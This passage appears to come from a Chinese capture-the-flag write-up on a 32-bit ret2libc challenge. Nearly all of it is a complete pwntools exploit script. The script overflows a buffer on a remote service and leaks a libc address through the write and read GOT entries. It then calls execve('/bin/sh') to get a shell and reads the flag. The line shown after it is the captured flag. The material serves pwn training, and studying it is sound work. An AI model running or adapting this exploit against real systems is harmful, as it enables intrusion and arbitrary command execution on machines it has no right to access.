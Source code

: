 相关参考：[ret2libc-ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/#ret2libc)

### exp

```python
from pwn import *
context(arch='i386',os='linux',log_level='error')

#libc = ELF("/lib/i386-linux-gnu/libc.so.6")
libc = ELF("./libc-2.23.so")
myelf = ELF("./vul32")

io = remote("202.112.51.157",9001)
# io = process(myelf.path)
# gdb.attach(io,"b * main")

libc_bin_sh = libc.search("/bin/sh").next()
libc_read = libc.symbols["read"]
libc_exec = libc.symbols["execve"]

plt_write = myelf.plt["write"]
got_read  = myelf.got["read"]
elf_main  = myelf.symbols["main"]

payload = ""
payload += 'A'*51+"C"
payload += p32(0)+p32(plt_write)+p32(elf_main)
payload += p32(1)+p32(got_read)+p32(4)

io.recv()
io.sendline(payload)
io.recvline()
leak_read = u32(io.recv(4))
io.recv()

libc_base = leak_read - libc_read
leak_exec = libc_base + libc_exec
leak_bin_sh = libc_base +libc_bin_sh

payload = ""
payload += 'B'*51+"C"
payload += p32(0)+p32(leak_exec)+p32(elf_main)
payload += p32(leak_bin_sh)+p32(0)+p32(0)

io.sendline(payload)
io.sendline("cat /flag")
io.interactive()
```

flag{__you_are_so_Cu7e_ls} 

## 64位

